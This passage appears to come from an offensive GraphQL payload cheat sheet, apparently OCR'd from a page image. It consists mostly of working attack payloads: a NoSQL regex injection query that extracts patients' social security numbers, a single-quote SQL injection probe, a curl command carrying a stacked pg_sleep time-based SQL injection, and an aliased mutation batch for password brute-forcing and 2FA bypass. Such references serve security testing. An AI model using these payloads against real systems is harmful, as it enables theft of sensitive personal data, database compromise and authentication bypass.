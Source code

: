 ```json
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```


### SQL injection

Send a single inside a graphql parameter to trigger the SQL injection

```powershell
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```

Simple SQL injection inside a graphql field.

```powershell
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

### GraphQL Batching Attacks

Common scenario:
* Password Brute-force Amplification Scenario
* 2FA bypassing

```powershell
mutation finishChannelVerificationMutation(
  $input FinishChannelVerificationInput!,
  $input2 FinishChannelVerificationInput!,
  $input3 FinishChannelVerificationInput!,
){
  first: finishChannelVerificationMutation(input: $input){
    channel{
      id
      option{
        ... onChannelSmsOptions{
          number
        }
      }
      status
      notificationSubscription(last: 1000){ etc...  }
    }
  }


  second: finishChannelVerificationMutation(input: $input2){...}
  third: finishChannelVerificationMutation(input: $input3){...}
}
```
